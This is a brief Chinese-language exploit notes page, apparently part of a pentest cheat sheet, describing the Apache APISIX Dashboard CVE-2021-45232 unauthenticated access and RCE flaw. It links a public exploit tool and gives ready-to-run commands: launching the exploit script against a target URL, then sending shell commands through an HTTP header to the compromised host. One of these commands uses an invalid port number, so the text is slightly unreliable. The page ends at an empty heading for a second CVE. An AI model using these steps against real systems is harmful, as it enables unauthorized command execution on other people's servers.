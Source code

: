 ### Apache-Apisix

Apache APISIX 是一个动态、实时、高性能的 API 网关，Apache APISIX Dashboard 使用户可通过前端界面操作 Apache APISIX。

**CVE-2021-45232**

* 漏洞描述
  * Apache APISIX Dashboard v2.7-2.10版本中存在未授权访问漏洞，攻击者无需登录就可以访问某些接口，深入分析发现还可以RCE。
*   工具地址

    * https://github.com/wuppp/cve-2021-45232-exp

    ```
    python apisix_dashboard_rce.py http://127.0.0.1:9000
    curl http://127.0.0.1:90000/xxxx -H "cmd:ifconfig"
    ```

    ![image](img/cve-2021-45232.png)
* 参考文章
  * https://mp.weixin.qq.com/s/WEfuVQkhvM6k-xQH0uyNXg

**CVE-2022-24112**

